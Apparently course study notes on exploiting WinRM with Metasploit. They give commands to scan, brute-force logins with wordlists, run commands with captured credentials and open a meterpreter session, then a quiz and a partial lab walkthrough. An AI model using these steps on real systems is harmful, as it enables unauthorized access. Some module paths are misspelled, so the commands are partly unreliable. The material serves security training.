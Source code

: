 
- Can facilitate remote access
- On port 5985 and 5986
- Implements access control and security

Scan target with db_nmap in msfconsole
```
db_nmap -sS -sV -O -p- <target_ip>
```

Search for auxiliary module
```
search type:auxiliary winrm
```

Utilize module
Confirm URI by navigating to the IP address in the web browser
```
use auxiliary/scanner/winrm/winrim_auth_methods
options
```

Search for auxiliary module for bruteforce
```
search type:auxiliary winrim
```

Use module for brute force
```
use auxiliary/scanner/winrim/winrim_login
options
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
exploit
```

Search for winrm_cmd module
```
search winrm_cmd
```

Use module to launch command on target 
```
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME <username_captured>
set PASSWORD <password_captured>
set CMD whoami
exploit
```

Search for exploit module
```
search type:exploit winrm_script
```

Use module to get meterpreter session
```
use exploit/windows/winrm/winrm_script_exec
options
set USERNAME <username_captured>
set PASSWORD <password_captured>
exploit
```

Migrate to System level process from Admin 
```
set FORCE_VBS true
exploit
```

## Quiz

What is the default HTTPS WinRM port?

	5986

## Lab

A Kali GUI machine and a target machine running a WinRM server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the WinRM service using the tools available on the Kali machine and then exploit the vulnerability using the Metasploit framework exploit and auxiliary modules.

Objective: Exploit the WinRM service to get a meterpreter on the target and retrieve the flag!


```
 db_nmap -p- -sS -sV -O 10.4.21.132
5985   tcp    http           open   Microsoft HTTPAPI httpd 2.0 SSDP/UPnP
```

```
use auxiliary/scanner/winrm/winrm_auth_methods
[+] 10.4.21.132:5985: Negotiate protocol supported
[+] 10.4.21.132:5985: Basic protocol supported
```

```
use auxiliary/scanner/winrm/winrm_login

```